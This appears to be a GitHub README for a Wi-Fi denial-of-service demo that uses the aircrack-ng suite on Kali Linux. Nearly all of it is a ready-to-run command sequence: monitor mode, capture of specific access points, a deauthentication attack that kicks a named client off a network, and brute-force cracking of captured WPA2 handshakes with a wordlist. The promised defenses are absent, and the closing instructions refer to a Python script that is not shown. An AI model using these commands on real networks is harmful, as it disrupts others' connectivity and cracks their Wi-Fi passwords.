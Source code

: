 # WiFi-DOS-Kali
Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng). Covers deauth attacks, brute-force cracking, and defenses. Includes PPT on attack types, tools, and commands. For ethical research only.


# WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng).  
Covers deauth attacks, brute-force cracking, and defenses.  
Includes PPT on attack types, tools, and commands.  
**For ethical research only.**

---

## Demonstration

```bash
# View network interfaces
ifconfig

# Start monitor mode on wlan0
airmon-ng start wlan0

# Kill interfering processes
airmon-ng check kill

# Confirm monitor mode
iwconfig

# Start scanning for Wi-Fi networks
airodump-ng -i wlan0mon

# Target specific BSSID and channel
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon

# Deauthentication Attack (Kick clients out)
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon

#Brute Force Attack
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt

aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap

#Stop Monitor Mode
airmon-ng stop wlan0mon
service network-manager restart


---
## 📝 Instructions

1. Save the script as `wifi_dos_attack.py`.

2. Run it with `sudo`:

   ```bash
   sudo python3 wifi_dos_attack.py

3. Make sure the aircrack-ng suite is installed:
   sudo apt install aircrack-ng



